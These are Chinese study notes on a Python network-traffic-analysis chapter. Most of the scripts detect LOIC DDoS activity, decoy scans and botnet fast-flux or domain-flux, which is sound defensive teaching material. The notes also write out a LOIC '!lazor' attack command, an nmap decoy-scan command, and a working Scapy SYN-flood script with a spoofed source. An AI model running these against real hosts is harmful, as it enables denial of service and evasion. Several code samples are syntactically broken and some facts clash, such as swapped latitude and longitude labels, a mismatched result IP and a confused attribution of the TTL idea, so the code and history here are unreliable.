



#  第4章　用Python分析网络流量

## 本章简介

- 定位IP流量的地理位置(dpkt)
- 发现恶意分布式拒绝服务(DDos)工具包(dpkt)
- 发现伪装网络扫描(scapy)
- 分析风暴(Storm)僵尸网络中使用的Fast-Flux和Conficker蠕虫中使用的Domain-Flux(scapy)
- 理解TCP序号预测攻击(scapy)
- 生成数据包愚弄入侵检测系统(IDS)(scapy)

## 4.1 用Python定位IP流量

### 引言　＂极光＂行动以及为什么明显的迹象会被忽视

2010年1月14日，美国政府获悉一起多路协同、老练且持久的网络攻击，攻击目标为谷歌、Adobe及其他30多家世界财富100强企业（Binde, McRee, &O'Connor, 2011)。
在这次被称为“极光”行动（该名称源于一台被黑的计算机上发现的文件夹名字）的攻击中，使用了一个之前从未被使用过的新型漏洞利用代码，尽管微软先前知道这个
系统漏洞，但他们错误地以为没有其他人知道它，因此也就没有要检测类似攻击的机制。

在实施攻击的过程中，攻击者首先会向被攻击者发送一封带有指向台湾某个含有恶意JavaScrip代码的网站链接的电子邮件（Binde, McRee, &O'Connor, 2011)。当用户
单击这个链接时，就会下载一个回到一台位于中国大陆的命令行控制服务器的恶意软件（Zetter, 2010)。之后，攻击者就能利用新获得的访问权限寻找存储在被黑的系
统中他们所关心的信息。

攻击很明显的出现了但在长达数月的时间里却未被检测出来，而是成功的渗透进了许多家世界100强企业的源码仓库，甚至是基本的网络检测软件也能识别这次行为。为
什么一个位于美国的世界100强公司有这么多员工连接上中国台湾的某个特定的网站之后，紧接着又去连接位于中国大陆的某个特定服务器呢？一个可视化的地图显示用
户连接台湾和中国具有显著的频率可以允许网络管理员调查这次攻击，并在相关信息泄露之前切断它。

在下面的内容中，我们运用Python分析多种不同类型的的攻击行为，以便快速解析出使用了大量不同数据点的攻击。

### 4.1.1 使用PyGeoIP关联IP地址的物理位置

#### **工具**

开源数据库： **GeoLiteCity** [download](https://dev.maxmind.com/geoip/legacy/geolite/#Databases)

python模块:pygeoip **GeoIP**类 [api](https://pygeoip.readthedocs.io/en/v0.3.2/api-reference.html)

- record_by_name(hostname)
- record_by_addr(addr)
- country_code_by_addr(addr)
- country_name_by_addr(addr)
- id_by_addr(addr)
- region_by_addr(addr)
- time_zone_by_addr(addr)
- ...

**record_by_name(hostname)**

- 城市 (city)
- 区域号 (region_code)
- 区号 (area_code)
- 时区(time_zone)
- 经度 (latitude)
- 纬度 (longitude)
- 邮政编码（postal_code)
- 国名(country_name)
- 大陆(continent)
- ...

#### **代码**
```C
import pygeoip
gi = pygeoip.GeoIP('./opt/GeoIP/GeoIP.dat')
den printRecord(tgt):
rec = gi.record_by_name(tgt)
    city = rec['city']
    region = rec['region_code']
    country = rec['country_name']
    long = rec['longitude']
    lat = rec['latitude']
    print('[*] Target: ' + tgt + ' Geo-located. ')
    print('[+] '+str(city)+', '+str(region)+', '+str(country))
    print('[+] Latitude: '+str(lat)+ ', Longitude: '+ str(long))
    tgt = '173.255.226.98'
    printRecord(tgt)
```

#### **结果**
```
[*] Target: 172.255.226.98 Geo-located.
[+] None, None, Netherlands
[+] Latitude: 52.3824, Longitude: 4.8995

[*] Target: baudu.com Geo-located.
[+] Beijing, 22, China
[+] Latitude: 39.9289, Longitude: 116.3883
```

### 4.1.2使用Dpkt解析包 [api](https://dpkt.readthedocs.io/en/latest/api/index.html)

#### **读取数据包**
```
pcap = dpkt.pcap.Reader(file)
 |
 |_ [timestamp,packet]
```
#### **解析数据包**
```
dpkt.ethernet.Ethernet(packet)
```
#### ** 解包流程图 **


#### **代码**

```C
import dpkt
import socket

def printPcap(pcap):
    for (ts, buf) in pcap:
        try:
            eth = dpkt.ethernet.Ethernet(buf)
            ip = eth.data
            src = socket.inet_ntoa(ip.src)
            dst = socket.inet_ntoa(ip.dst)
            print('[+] Src: ' + src + ' --> Dst: ' + dst)
        except:
            pass

def main():
    f = open('data.pcap')
    pcap = dpkt.pcap.Reader(f)
    printPcap(pcap)

if __name__ == '__main__':
    main()
```

**改进**：加入一个函数来返回指定IP地址对应的物理地址

```C
gi = pygeoip.GeoIP('/opt/GeoIP/GeoIP.dat')
def retGeoStr(ip):
    try:
        rec = gi.record_by_name(ip)
        city = rec['city']
        country = rec['country_code3']
        if city != '':
            geoLoc = city + ', ' + country
        else:
            geoLoc = country
        return geoLoc
    ecept Exception as e:
        return 'Unregistered'
```

#### **结果**

```
[+] Src: 110.8.88.36 --> Dst: 188.39.7.79
[+] Src: Namyangju, KOR--> Dst: Islington, GBR
[+] Src: 28.38.166.8 --> Dst: 21.133.59.224
[+] Src: Unregistered--> Dst: Unregistered
[+] Src: 153.117.22.211 --> Dst: 138.88.201.132
[+] Src: Wichita, USA--> Dst: Unregistered
[+] Src: 1.103.102.104 --> Dst: 5.246.3.148
[+] Src: Unregistered--> Dst: Unregistered
[+] Src: 166.123.95.157 --> Dst: 219.173.149.77
[+] Src: Washington, USA--> Dst: Aomori, JPN
[+] Src: 8.155.194.116 --> Dst: 215.60.119.128
[+] Src: Unregistered--> Dst: Unregistered
[+] Src: 133.115.139.226 --> Dst: 137.153.2.196
[+] Src: Unregistered--> Dst: Unregistered
[+] Src: 217.30.118.1 --> Dst: 63.77.163.212
[+] Src: Edinburgh, GBR--> Dst: Unregistered
[+] Src: 57.70.59.157 --> Dst: 89.233.181.180
[+] Src: Unregistered--> Dst: Prague, CZE
```

### 4.1.3使用Python画谷歌地图

谷歌地球能在一个专门的界面中显示出一个虚拟地球仪、地图和地理信息。虽然用的是专门的界面，但谷歌地球可以让你很方便地在地球仪上画出指定位置或轨迹。通
过创建一个扩展名为KML的文体文件，用户可以把许多个地理位置标大谷歌地球上。KML文件中是下面规定的XML结构。

```
<?xml version="1.0" encoding="UTF-8"?>
<kml xmlns="http://www.opengis.net/kml/2.2">
    <Document>
        <Placemark>
            <name>93.170.52.30</name>
            <Point>
                <coordinates>5.750000,52.500000</coordinates>
            </Point>
        </Placemark>
        <Placemark>
            <name>208.73.210.87</name>
            <Point>
                <coordinates>-122.393300,37.769700</coordinates>
            </Point>
        </Placemark>
    </Document>
</kml>
```

我们有了IP地址和对应的物理位置的经纬度，给已有的脚本加上创建KML文件的功能，就可以通过生成的KML文件IP地址的物理位置在谷歌地球上展示出来。

```
def retKML(ip):
    rec = gi.record_by_name(ip)
    try:
        longitude = rec['longitude']
        latitude = rec['latitude']

        kml =
        ('<Placemark>\n'
        '<name>%s</name>\n'
        '<Point>\n'
        '<coordinates>%6f,%6f</coordinates>\n'
        '</Point>\n'
        '</Placemark>\n'
        )
        % (ip,longitude, latitude)

        return kml
    except Exception, e:
        return ''
```

我们可以通过这样一个函数构建表示该IP所对应的物理位置的KML结构，如出现异常（没找到对应的地点），则返回一个空串。
还需根据规定添加所需的KML头和尾。

```
kmlheader = '<?xml version="1.0" encoding="UTF-8"?>\n
    <kml xmlns="http://www.opengis.net/kml/2.2">\n<Document>\n'
    {body}
kmlfooter = '</Document>\n</kml>\n'
```
#### 结果

把KML文件导入谷歌地图后可以看到在地图上的标志如下：


## 4.2 用Python分析LOIC流量

2010年12月，荷兰警方逮捕了一名少年，他被控参与对Visa、MasterCard 和Papal进行了分布式拒绝服务攻击，而该攻击又是一场针对那反对维基解密的公司而发起的行动的一个组成部分。

之后不到一个月，美国联邦调查局（FBI）发出40张调查令，英国警方又逮捕5人。这些被指控的犯罪嫌疑人与“匿名者”黑客集团保持着松散关系，他们下载并使用一个名为LOIC（Low Orbit Ion Cannon，低轨道离子炮）的分布式拒绝服务工具包。

LIOC使用大量的UDP和TCP流量对目标进行拒绝服务式攻击。单台计算机上的LOIC程序只能消耗目标很少一部分的资源。但是，台果成百上千台计算机上同时使用LOIC，将很快耗尽目标的资源以及提供服务的能力。

LOIC提供了两种操作模式。在第一种模式下，用户可以输入目标的地址。在第二被称为HIVEMIND（蜂群）的模式下，用户将LOIC连接到一台IRC服务器上，在这台服务器上，用户可以提出发动攻击，连接在这台服务器上的IRC用户就会自动对该目标进行攻击。

### 4.2.1使用Dpkt发现下载LOIC行为

#### 下载行为判别
- HTTP 请求：GET（下载该工具需要发出一个 HTTP GET 请求）
- 关键字：loic (project/loic/loic/loic-1.0.8/LOIC-1.0.8-binary.zip)

#### 代码
```
def findDownload(pcap):
    for (ts, buf) in pcap:
        try:
            eth = dpkt.ethernet.Ethernet(buf)
            ip = eth.data
            src = socket.inet_ntoa(ip.src)
            tcp = ip.data
            http = dpkt.http.Request(tcp.data)
            if http.method == 'GET':
                uri = http.uri.lower()
                print uri
                if '.zip' in uri and 'loic' in uri:
                    print '[!] ' + src + ' Downloaded LOIC.'
        except Exception, e:
            print str(e)
            pass
```

### 4.2.2解析Hive服务器上的IRC命令

只下载LOIC并不一定是非法的，然而，连接到“匿名者”的HIVE，并发动分布式拒绝服务攻击，想要打瘫某个服务，就违法了。

要发起攻击，“匿名者”成员需要登录到指定的IRC服务器上发出一攻击指令，如 !lazor targetip=66.211.169.66 message=test_test port=80 method=tcp wait=false random=true start。

#### 攻击行为判别
- 端口：6667（在大多数情况下，IRC服务器使用的是TCP 6667端口）
- 指令：!lazor (!lazor targetip=66.211.169.66...)

#### 代码
```
def findHivemind(pcap):
    for (ts, buf) in pcap:
        try:
            eth = dpkt.ethernet.Ethernet(buf)
            ip = eth.data
            src = socket.inet_ntoa(ip.src)
            dst = socket.inet_ntoa(ip.dst)
            tcp = ip.data
            dport = tcp.dport
            sport = tcp.sport
            if dport == 6667:
                if '!lazor' in tcp.data.lower():
                    print '[!] DDoS Hivemind issued by: '+src
                    print '[+] Target CMD: ' + tcp.data
            if sport == 6667:
                if '!lazor' in tcp.data.lower():
                    print '[!] DDoS Hivemind issued to: '+src
                    print '[+] Target CMD: ' + tcp.data
        except:
            pass
```

### 4.2.3实时监测DDoS攻击

#### 攻击行为判别

设置一个不正常的数据包量的阈值。当某一用户发送到某个地址的数据包的数量超过了这个阈值，就表示该用户存在攻击行为。

#### 代码
```
def findAttack(pcap):
    pktCount = {}
    for (ts, buf) in pcap:
        try:
            eth = dpkt.ethernet.Ethernet(buf)
            ip = eth.data
            src = socket.inet_ntoa(ip.src)
            dst = socket.inet_ntoa(ip.dst)
            tcp = ip.data
            dport = tcp.dport
            if dport == 80:
                stream = src + ':' + dst
                if pktCount.has_key(stream):
                    pktCount[stream] = pktCount[stream] + 1
                else:
                    pktCount[stream] = 1
        except:
            pass

    for stream in pktCount:
        pktsSent = pktCount[stream]
        if pktsSent > THRESH:
            src = stream.split(':')[0]
            dst = stream.split(':')[1]
            print '[+] '+src+' attacked '+dst+' with ' \
                + str(pktsSent) + ' pkts.'
```

将这些代码放在一起，我们的脚本就能检测到下载行为，监听到HIVE指令并检查出攻击行为。

如果监测到某一用户下载了LOIC，随后收到一条HIVE指令，接着又发起了攻击，就能证明该用户参与了“匿名者”发起的DDoS攻击。

## 4.3 H.D.Moore是如何解决五角大楼的麻烦的

1999年年末，美国五角大楼的计算机网络面临了一场严重危机。美国国防总部五角大楼宣布其正遭受一系列协调一致的老练攻击。

新发布的工具--Nmap 让任何人都能很容易地扫描出网络中的服务和漏洞。五角大楼担心袭击者利用Nmap探测五角大楼大型计算机网络中的漏洞。

检测出Nmap扫描非常容易，而且还可以查出攻击者的IP地址，并依次找出该IP的物理地址。但Nmap的高级选项里可以选择输入其他IP地址进行伪装扫描（decoy scan），五角大楼的专家很难区分数据包中的IP是否真实。

正当专家们努力用理论方法对大量的数据记录进行分析和研究时，来自克萨斯大学奥斯汀分校的一名 **仅17岁的年轻人(Stephen Northcutt)** 却最终找到了解决方案。

这个年轻人建议用TTL字段分析所有来自Nmap扫描的数据包。

### 4.3.1理解TTL字段

IP数据包的TTL（time-to-live)字段可以确定在到达目的地之前数据包经过了几跳。每当一个数据包经过一个路由设备时，路由器会将TTL字段的值减去1。

字段大小： 8bit(1字节)

范围： 0～255

作用：限制数据包在计算机网络中的存在的时间，数据包每经过一个路由设备，TTL值就自减一。当TTL值为零时，路由器就丢掉该数据包，以防无限路由循环。

### 4.3.2Nmap伪装扫描

命令：

```
nmap [-p <port ranges>]  <target IP>  -D <decoy1,decoy2[,ME],...>] [-ttl <val>]
```
其中：

**target IP:** 扫描的主机IP，多个用空格隔开

**decoy1,decoy2[,ME],...:** 伪装的IP地址，ME可用来代替本机IP

### 4.3.3用Scapy解析数据包

#### 读取数据包

**sniff函数：**

```
sniff(count=0, store=True, offline='pcap_file', prn=callback, filter='filter', iface='eth0')
```
- count:读取数据包数
- store:是否保存
- offline:离线文件
- prn:回调函数
- filter:过虑器
- iface:网口

#### 解析数据包

**两个函数：**

haslayer():判断是否含有该层协议，比如IP

getlayer():获取该层协议信息

**结构：**

tcp包：

<bound method Ether.getlayer of

<Ether  dst=00:50:56:e4:d3:3b src=00:0c:29:1e:cf:e2 type=IPv4 |

<IP  version=4 ihl=5 tos=0x0 len=488 id=14514 flags=DF frag=0 ttl=64 proto=tcp chksum=0x995d src=192.168.95.172 dst=70.38.0.134 options=[] |

<TCP  sport=49019 dport=http seq=1909424285 ack=901151742 dataofs=5 reserved=0 flags=PA window=14600 chksum=0x39b6 urgptr=0 options=[] |

<Raw  load='GET /project/loic/loic/loic-1.0.7/LOIC-1.0.7.42-binary.zip HTTP/1.1\r\nHost: iweb.dl.sourceforge.net\r\nUser-Agent: Mozilla/5.0 (X11; Linux i686 on x86_64; rv:10.0.2) Gecko/20100101 Firefox/10.0.2\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\nAccept-Language: en-us,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\nReferer: http://sourceforge.net/projects/loic/files/latest/download?source=files\r\nDNT: 1\r\nConnection: keep-alive\r\n\r\n'

|>>>>>

udp包：

<bound method Ether.getlayer of

<Ether  dst=e6:fa:98:56:16:2b src=66:fa:1a:30:07:33 type=IPv4 |

<IP  version=4 ihl=5 tos=0x0 len=60 id=9954 flags= frag=0 ttl=128 proto=udp chksum=0x3de4 src=192.168.42.25 dst=192.168.42.129 options=[] |

<UDP  sport=58613 dport=domain len=40 chksum=0xa863 |

<DNS  id=64861 qr=0 opcode=QUERY aa=0 tc=0 rd=1 ra=0 z=0 ad=0 cd=0 rcode=ok qdcount=1 ancount=0 nscount=0 arcount=0 qd=<DNSQR  qname='www.qqyewu.com.' qtype=A qclass=IN |>an=None ns=None ar=None

|>>>>>

### 4.3.4用Scapy解析TTL字段

我们要写一个函数进行嗅探，并检查嗅探到的数据包的IP层，将数据包的源IP地址和TTL字段的值提取出来

```
from scapy.all import *
def testTTL(pkt):
    try:
        if pkt.haslayer(IP):
        ipsrc = pkt.getlayer(IP).src
        ttl = str(pkt.ttl)
        print '[+] Pkt Received From: ' + ipsrc + ' with TTL: ' + ttl
    except:
        pass

def main():
    sniff(prn=testTTL, store=0)

if __name__ == '__main__':
    main()
```

有了嗅探到的数据包的源IP地址与TTL字段的值，我们还需要写一个函数来获取该源IP真正的TTL字段值来进行对比，

走不同路径到达目标主机的数据包所经过的路由设备的数量可能会有所差异，因此其TTL也可能不完全一样，

但如果真实TTL值与收到的数据包的TTL值的差值超过了某个阈值，比如5,则认为该TTL值是假的。

```
import time
import optparse
from scapy.all import *
from IPy import IP as IPTEST

ttlValues = {}
THRESH = 5


def checkTTL(ipsrc, ttl):
    if IPTEST(ipsrc).iptype() == 'PRIVATE':
        return

    if not ttlValues.has_key(ipsrc):
        pkt = sr1(IP(dst=ipsrc) / ICMP(), \
          retry=0, timeout=1, verbose=0)
        ttlValues[ipsrc] = pkt.ttl

    if abs(int(ttl) - int(ttlValues[ipsrc])) > THRESH:
        print '\n[!] Detected Possible Spoofed Packet From: '\
          + ipsrc
        print '[!] TTL: ' + ttl + ', Actual TTL: ' \
            + str(ttlValues[ipsrc])


def testTTL(pkt):
    try:
        if pkt.haslayer(IP):
            ipsrc = pkt.getlayer(IP).src
            ttl = str(pkt.ttl)
            checkTTL(ipsrc, ttl)
    except:

        pass


def main():
    parser = optparse.OptionParser("usage %prog "+\
      "-i <interface> -t <thresh>")
    parser.add_option('-i', dest='iface', type='string',\
      help='specify network interface')
    parser.add_option('-t', dest='thresh', type='int',
      help='specify threshold count ')

    (options, args) = parser.parse_args()
    if options.iface == None:
        conf.iface = 'eth0'
    else:
        conf.iface = options.iface
    if options.thresh != None:
        THRESH = options.thresh
    else:
        THRESH = 5

    sniff(filter="! port 22", prn=testTTL, store=0)


if __name__ == '__main__':
    main()
```

**局限性：**

- 默认的TTL初始值为64,而MS Windows NT 4.0 起的 Windows系统已经把TTL的初始值设为128, 某些UNIX系统的TTL初始值也可能不同，比如Solaris 2.x的默认TTL是255
- 不同网段的IP地址经过转换有所变化

## 4.4 ＂风暴＂(Storm)的fast-flux和Conficker的domain-flux

2007年，安全研究人员发现了一种新的在臭名昭著的风暴（Storm）僵尸网络上使用的技术（Higgins ，2007）。这种名为fast-flux的技术使用域名服务(DNS)记录隐藏指
挥风暴僵尸网络的控制与命令信道。DNS记录一般是用来将域名转换成IP地址的。当DNS服务器返回一个结果时，它同时会指定一个TLL----告诉主机这个IP地址在多长的时
间里肯定是有效的，因而在这段时间里无须再次解析域名。

风暴僵尸网络背后的攻击者会非常频繁地改变用于指挥与控制服务器的DNS记录。事实上，他们使用了分布在50多个国家的384个网络供应商手上的2000多台冗余服务器。
攻击者频繁地切换指挥与控制的服务器的IP地址，并在DNS查询结果中的返回一个很短的TTL。这种快速变化IP地址的做法（fast-flux）使得安全研究员很难找出僵尸网络
的指挥与控制服务器，更别说关掉这些服务器了。

尽管使用fast-flux之后，风暴僵尸网络已经很难被打垮了，但不到一年，另一种类似的技术又被用来帮助入侵200多个国家里的700万台电脑（Binde，2011）。Conficker
是迄今为止最成功的电脑蠕虫病毒，它通过Windows服务消息块（Windows Service Message Block，SMB ）协议中的一个漏洞传播。一旦被感染，有漏洞的机器便联络命令
与控制服务器，以获得进一步的命令。想要阻止攻击，识别并阻断“肉机”与指挥的控制服务器之间的通信是绝对必要的。然而，Conficker每三个小时会使用UTC格式的当前
日期生成一批不同的域名。对Conficker第三个版本来说，这意味着每三个小时生成50000个域名。攻击者中注册了这些域名的很少部分，让它们能映射成真正的IP地址。这
使得拦截和阻止来自命令与控制服务器的流量变得非常困难。由于该技术是轮流使用域名的，所以研究人员便将其命名为domain-flux。
下面将编写能在真实环境中检测出fast-flux和domain-flux，并识别出攻击的Python脚本。

### 4.4.1回顾DNS（Domain Name System）

要能在真实环境中识别出fast-flux 和 domain-flux,我们先通过观察因某次域名请求而产生的流量快速复习一下NDS 。为了理解DNS ，我们进行一次域名查询，查询whitehouse.com
的IP地址。

```
[root@localhost CH4]# nslookup whitehouse.com
Server:		114.114.114.114
Address:	114.114.114.114#53

Non-authoritative answer:
Name:    whitehouse.com
Address: 54.208.114.32
```

用tcpdump检查DNS查询过程可以看到，我们的客户端（10.0.2.15）向IP地址为114.114.114.114的DNS服务器发送 了一次请求。

客户端生成了一个 DNS Question Record(DNSQR),查询 whitehouse.com 的IP地址,服务器响应了一个 DNS Resource(DNSRR)，给出了whitehouse.com的 IP 地址。

```
[root@localhost cli]# tcpdump -i enp0s3 -nn 'udp port 53'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on enp0s3, link-type EN10MB (Ethernet), capture size 65535 bytes
13:39:33.677885 IP 10.0.2.15.37069 > 114.114.114.114.53: 244+ A? whitehouse.com. (32)
13:39:33.687357 IP 114.114.114.114.53 > 10.0.2.15.37069: 244 1/0/0 A 54.208.114.32 (48)
```
### 4.4.2用Scapy解析DNS流量

当我们用 Scapy 检查 DNS 协议请求包时,我们要检查的字段在 DNSQR 和 DNSRR包中。

DNSQR 包含了查询名(qname),查询类型(qtype)和查询类别(qclass)。

DNSRR 包含资源记录名称(rrname),类型(type),资源记录类别(rclass)和
TTL。

在了解 Fast-flux 和 Domain-flux 的工作原理后,我们现在可以使用Scapy 编写 一个Python 脚本分析和识别可疑的DNS流量。

```
>>> ls(DNSQR)
    qname      : DNSStrField                         = ('www.example.com')
    qtype      : ShortEnumField                      = (1)
    qclass     : ShortEnumField                      = (1)
>>> ls(DNSRR)
    rrname     : DNSStrField                         = ('.')
    type       : ShortEnumField                      = (1)
    rclass     : ShortEnumField                      = (1)
    ttl        : IntField                            = (0)
    rdlen      : RDLenField                          = (None)
    rdata      : RDataField                          = ('')
```

出于教学的目的，这里假设已经抓到了一个名为fastFlux.pcap的数据包文件，其中包含想要分析 的DNS流量。

### 4.4.3用Scapy找出fast-flux流量

Scapy 含有一个功能强大的haslayer()函数，该函数接收协议类型,并返回一个布尔值。

如果数据含有一个DNSRR,我们将提取其中记录查询的域名和对应的 IP 地址的 rname 和rdata 变量。

然后用得到的域名查维护一个对域名作为索引的字典，用来记录相同域名下的不同IP地址。

#### 代码

```
from scapy.all import *

dnsRecords = {}

def handlePkt(pkt):
    if pkt.haslayer(DNSRR):
        rrname = pkt.getlayer(DNSRR).rrname
        rdata = pkt.getlayer(DNSRR).rdata
        if dnsRecords.has_key(rrname):
            if rdata not in dnsRecords[rrname]:
                dnsRecords[rrname].append(rdata)
        else:
            dnsRecords[rrname] = []
            dnsRecords[rrname].append(rdata)


def main():
    pkts = rdpcap('1.pcap')
    for pkt in pkts:
        handlePkt(pkt)

    for item in dnsRecords:
        print '[+] '+item+' has '+str(len(dnsRecords[item])) \
            + ' unique IPs.'


if __name__ == '__main__':
    main()

```

### 4.4.4用Scapy找出Domain Flux流量

接下来,我们开始分析被 Conficker 蠕虫感染的机器。你可以感染你自己的机器
或者下载一些捕获的样本。在许多第三方网站上都能下载到一些的 Conficker 网络抓包文件。
由于Conficker 蠕虫利用 Domain-flux技术,我们需要找的就是那些对未知域名查询回复出错的服务器响应包。
不同版本的 Conficker 都会在几个小时内生成许多 DNS 域名。因为许多域名是伪造的,
使用他的目的是为了掩盖真实的命令与控制服务器。DNS服务器没法把大多数域名转换为真正的IP 地址，对于这些域名，服务器回复了一个出错的信息。

我们通过找出所有的包含域名出错的错误代码的NDS响应包的方式，实时识别出domain-flux。
DNS数据包中有一个rcode字段，当rcode等于3时，表示这种域名不存在。

其他rcode值:

- 0:无差错
- 1:格式错误
- 2:域名服务器出现错误
- 4:查询类型不支持
- 5:被禁止
- 6 ~ 15 保留

Conficker用过的域名列表可以在http://www.cert.at/downloads/data/conficker_en.html 找到。

```
from scapy.all import *

def dnsQRTest(pkt):
    if pkt.haslayer(DNSRR) and pkt.getlayer(UDP).sport == 53:
        rcode = pkt.getlayer(DNS).rcode
        qname = pkt.getlayer(DNSQR).qname
        if rcode == 3:
            print '[!] Name request lookup failed: ' + qname
            return True
        else:
            return False


def main():
    unAnsReqs = 0
    pkts = rdpcap('domainFlux.pcap')
    for pkt in pkts:
        if dnsQRTest(pkt):
            unAnsReqs = unAnsReqs + 1
    print '[!] '+str(unAnsReqs)+' Total Unanswered Name Requests'


if __name__ == '__main__':
    main()
```
## 4.5 Kevin Mitnick和TCP序列预测

1995年 2月16日,一个臭名昭著的黑客的的时代终于结束了，他的的犯罪行为几近疯狂，包含
盗取企业价值数百万美元的商业机密。在超过15年的时间里Kevin Mitnick未经授权访问计算
机,窃取私密信息,并骚扰试图抓他的人（Shiomura),但是最后一个团队锁定并抓到了他。

Tsutomu Shimomura,一个计算物理理学家,帮助逮捕了Mitnick。1992年，在国会就手机安全作证之后,
Shimomur成了Mitnick的目标。1994 年 12 月,有人闯入了Shimomura家的电脑系统,Shimomura坚信攻击
者是Mitnick，并被其所用的新的攻击方法所着迷,最终带领技术小队在第二年追踪到了Mitnick。

Mitnick用的是了一种劫持TCP会话的方法。这种技术被称为 TCP 序列号预测,利用的是原本设计用来
区分各个独立的网络连接的（TCP）序列号的生成缺乏随机性这一缺陷。这上缺陷加上IP地址欺骗，使得
Mitnick能够劫持Shimomura家用电脑中的某个连接。

### 预测你自己的TCP序列号

Mitnick攻击的机器与某台远程服务器之间有一个可信协议。远程服务器可以通过在TCP 513 端口上运行的
远程登录协议（rlogin)访问Mitnick攻击的计算机。rlogin并没有使用公钥/私钥协议或口令验证，而是
使用了一种不太安全的认证方法----绑定源IP地址。

因此,为了攻击 Shimomura 的电脑Mitnick必须

1.找到一个可信的服务器;

2.使服务器无法做出响应;

3.伪造来自服务器的一个连接;

4.盲目伪造正确的 TCP 三次握手包的 ACK 包。



Mitnick找到与Shimomura个人电脑有可信协议的远程服务器后，需要使远程服务器不能再发现响应。如果远程服务器发现
有人尝试使用服务器IP地址进行假连接，它将发送TCP重置（reset）数据包关闭连接。为了使服务器无法做出响应,Mitnnick
向服务器上的远程登录端口发送了许多TCP SYN数据包，即SYN 泛洪攻击，这种攻击会填满服务器的连接队列，使之无法做出
任何响应。

在Shimomura公布的攻击细节中，我们能看到向目标服务器的远程登录端口(rlogin)发出的一系列TCP SYN包。



### 使用Scapy制造SYN泛洪攻击

用 Scapy 重现SYN 泛洪攻击很简单,我们制作一些载有TCP协议层的IP数据包,让这些包里的TCP端口不断自增一，而目的TCP端口总是为513。

```
def synFlood(src, tgt):
    for sport in range(1024,65535):
        IPlayer = IP(src=src, dst=tgt)
        TCPlayer = TCP(sport=sport, dport=513)
        pkt = IPlayer / TCPlayer
        send(pkt)
src = "10.1.1.5"
tgt = "192.168.1.3"
synFlood(src, tgt)
```

### 计算TCP序列号

现在攻击变得更有趣了。随着远程服务器的不再响应,Mitnick可以伪造一个TCP连接到目标。不过,这取决于他发送伪造的 SYN 的能力,紧接着，
Shimomura 机器TCP 会返回一个TCP SYN-ACK包进行确认 。为了完成连接,Mitnick需要在SYN-ACK中正确猜中TCP的序列号，然后把猜到的正确
的序列号放在ACK包中发回去。

为了正确计算 TCP 序列号,Mitnick从名为 apollo.it.luc.edu 的大学机器发送了一系列的 SYN 数据包,收到 SYN包之后,Shimomura 的计算机
会响应一个带TCP序列号的SYN-ACK包。


注意下面截取出的的技术细节的序列号:2022080000, 2022208000, 2022336000, 2022464000。每个增量相差128000,这使得计算出正确的 TCP 序列号非常容易。
( 注意,大多数现代的操作系统今天提供更强大的随机 TCP 序列号。)



为了在Python中重现这一过程，我们将发送TCP SYN包，然后等待TCP SYN-ACK包。收到之后,我们将从确认包中读出TCP序列号并打印到屏幕上。我们进重复
4 次确认这个规律是否存在。

